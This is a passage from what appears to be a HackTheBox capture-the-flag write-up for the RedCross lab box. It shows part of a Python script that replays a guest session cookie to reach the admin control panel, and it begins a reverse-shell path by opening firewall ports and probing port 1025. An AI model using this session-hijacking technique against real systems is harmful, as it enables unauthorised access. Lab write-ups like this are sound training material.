 ```py
    # Clean the cookies
    r.cookies.clear()
    # Now, set the cookie from the guest, to get the access!
    r.cookies.set('PHPSESSID', cookie, path='/', domain='admin.redcross.htb')
    # Now get on the page
    url = "https://admin.%s.htb/?page=cpanel" %rhost
    r.get(url, proxies=proxies, verify=False, allow_redirects=True)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    rhost = args.target

    '''Here we call the functions'''
    # Make the login request to get cookies
    login(rhost)
    adminPageCookie(rhost)


if __name__ == '__main__':
    main()
```

Great, now we have the proper access to the admin page with the guest cookies seted

# Penelope Shell

Now, we already have access to the admin page, we can start to get a reverse shell on this box

## Open Firewall

First thing to do is enable the firewall rule on the website

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:29:43.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:29:30.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:29:56.png)

Now, we see new ports opened on the box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:30:26.png)

## Path 1: Haraka

We see the port 1025, we try to nc it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:34:35.png)
